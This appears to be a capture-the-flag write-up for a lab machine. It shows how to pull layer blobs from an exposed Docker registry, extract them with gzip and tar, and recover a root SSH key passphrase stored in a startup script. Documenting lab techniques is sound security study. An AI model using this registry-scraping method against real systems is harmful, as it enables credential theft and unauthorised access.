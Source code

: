 # Alternative way to exploit Registry

## Extracting files from Docker image file

Instead of login into the Docker registry, the image file can be downloaded and contains blob names that can be downloaded individually.

Pulling the image:
```
GET /v2/bolt-image/manifests/latest
```

Blob names in the image file:
```
(...)
"fsLayers": [
      {
         "blobSum": "sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b"
      },
      {
         "blobSum": "sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee"
      },
      {
         "blobSum": "sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c"
      },
      {
         "blobSum": "sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7"
      },
      {
         "blobSum": "sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
  ],
(...)
```

Downloading one blob:
```
http://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b
```

The command `file` identifies the file as _gzip compressed data_:
Decompressing _gzip_ file:
```
gzip -d sha256-302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.gz
```

The command `file` identifies the decompressed file as a _tar archive_.
Decompressing _tar_ file:
```
tar -xvf sha256-302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.tar
```

It extracts one file:
```
etc/profile.d/01-ssh.sh
```

This file is a bash script that contains a password for a SSH key from root:
```
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This method can be done with every blob to get different directories and files from the container.

